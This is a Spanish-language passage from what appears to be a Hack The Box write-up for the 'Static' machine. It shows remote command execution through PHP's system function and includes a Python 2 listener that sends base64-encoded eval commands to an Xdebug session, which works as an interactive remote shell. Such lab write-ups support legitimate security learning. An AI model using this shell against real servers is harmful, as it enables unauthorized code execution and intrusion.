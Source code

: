 Como vimos en el archivo info.php la función `system` no está deshabilitada. Ejecutamos `whoami`. La respuesta viene en base64, decodificamos para obetener texto claro

<img src="/assets/HTB/Static/rce.png">

para ganar en agilidad a la hora de ejecutar comandos vamos a modificar el script en python2 del repositorio de GitHub

```python
#!/usr/bin/env python2

import  socket, pdb, signal, sys, re
from base64 import b64decode

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

ip_port = ('0.0.0.0', 9000) 
sk = socket.socket()
sk.bind(ip_port) 
sk.listen(10) 
conn, addr = sk.accept() 

while  True: 
    client_data = conn.recv(1024) 
    
    response_b64 = re.findall(r'CDATA\[(.*?)\]', client_data)[0]

    try:
        output = b64decode(response_b64)
        print(output)
    except:
        None

    data = raw_input ('>> ') 
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```
